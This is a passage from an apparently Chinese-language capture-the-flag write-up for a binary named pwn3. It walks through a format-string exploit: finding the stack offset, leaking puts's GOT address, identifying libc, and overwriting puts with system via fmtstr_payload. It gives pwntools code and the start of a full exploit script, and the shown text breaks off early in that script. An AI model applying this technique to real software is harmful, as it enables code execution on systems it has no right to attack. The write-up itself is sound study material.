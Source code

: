 偏移位置就是 (0xffffd09c-0xffffd080)/4=7

接下来可以利用printf泄露出puts的地址，算出libc的版本，然后用libc里面的system来换掉puts。

最后的覆盖可以用fmtstr_payload函数

	fmtstr_payload(偏移，{被替换的：替换的})

	r.recvuntil("Name (ftp.hacker.server:Rainism):")

	r.sendline(password2)

	r.recvuntil("ftp>")

	r.sendline('put')

	r.recvuntil("please enter the name of the file you want to upload:")

	r.sendline('aaaa')

	r.recvuntil("then, enter the content:")

	r.sendline(p32(puts_got)+'%7$s')

	r.recvuntil("ftp>")

	r.sendline('get')

	r.recvuntil("enter the file name you want to get:")

	r.sendline('aaaa')

	puts_addr=u32(r.recv()[4:8])

这里是拿到了puts的真实地址。如果输入的是p32(puts_got)+'%7$s'则地址为recv的4-8位

如果输入的是‘%8$s’+p32(puts_got)，则地址为recv的前4位

完整的exp

	from pwn import *

	from LibcSearcher import LibcSearcher

	r=process('./pwn3')

	elf=ELF('./pwn3')

	context.terminal = ['terminator','-x','sh','-c']

	pwnlib.gdb.attach(r)

	puts_got=elf.got['puts']

	password1='sysbdmin'

	password2=''

	for i in password1:

		password2+=chr(ord(i)-1)

	print(password2)

	r.recvuntil("Name (ftp.hacker.server:Rainism):")
